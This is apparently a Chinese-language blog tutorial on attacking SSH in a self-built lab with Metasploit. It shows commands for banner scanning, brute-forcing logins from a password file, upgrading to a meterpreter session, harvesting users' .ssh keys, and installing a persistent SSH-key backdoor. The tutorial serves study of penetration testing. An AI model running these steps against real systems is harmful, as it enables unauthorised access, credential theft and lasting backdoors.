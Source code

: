 ```yaml
---
title: 利用msf进行SSH渗透
layout: post
tags:
  - sec
  - hack
  - skills
  - windows
  - hijacking
category: 
  - hack
  - sec
  - skills
comments: true
share: true
description: 搭建靶机，利用msf进行SSH渗透
---
```


* TOC
{:toc}

搭建靶机，利用msf进行SSH渗透

<!--more-->

## 搭建环境

### 安装openssh

```cpp
sudo apt-get install openssh-server
```


![](/img/hack/ssh攻击/1507599755711.png)

## 抓取SSH Banner

**nmap:**

```javascript
nmap -sV 192.168.222.147
```

![](/img/hack/ssh攻击/1507602070398.png)

**使用msf的db_nmap：**

```javascript
msf > db_status

msf > db_nmap -sV 192.168.222.147
```

![](/img/hack/ssh攻击/1507602233263.png)

**使用msf的辅助模块查询版本号：**

```javascript
msf > use auxiliary/scanner/ssh/ssh_version 

msf auxiliary(ssh_version) > set RHOSTS 192.168.222.147
RHOSTS => 192.168.222.147


msf auxiliary(ssh_version) > exploit 
```

![](/img/hack/ssh攻击/1507602392356.png)



## 爆破

```javascript
msf auxiliary(ssh_version) > use auxiliary/scanner/ssh/ssh_login

msf auxiliary(ssh_login) > set RHOSTS 192.168.222.147
RHOSTS => 192.168.222.147

msf auxiliary(ssh_login) > set USERPASS_FILE /root/Desktop/di.txt
USERPASS_FILE => /root/Desktop/di.txt

msf auxiliary(ssh_login) > exploit

msf auxiliary(ssh_login) > sessions 1
[*] Starting interaction with 1...

ifconfig
```

![](/img/hack/ssh攻击/1507601007476.png)

执行以下命令获得meterpreter 会话：

```javascript
sessions -u 2
sessions -l
```

![](/img/hack/ssh攻击/1507601279493.png)

## 窃取PGP密钥登陆ssh



收集目标机器上所有用户的`.ssh`目录内容，下载`known_hosts`和`authorized_key`以及其他文件：

```javascript
msf post(sshkey_persistence) > use post/multi/gather/ssh_creds 
msf post(ssh_creds) > set sessions 2
sessions => 2
msf post(ssh_creds) > exploit 
```

![](/img/hack/ssh攻击/1507623351726.png)


## 创建永久后门

给指定的用户添加ssh密钥，从而可通过ssh进行远程登陆

```javascript
msf post(ssh_creds) > use post/linux/manage/sshkey_persistence 
msf post(sshkey_persistence) > set sessions 2
sessions => 2
msf post(sshkey_persistence) > exploit 
```

![](/img/hack/ssh攻击/1507623557365.png)



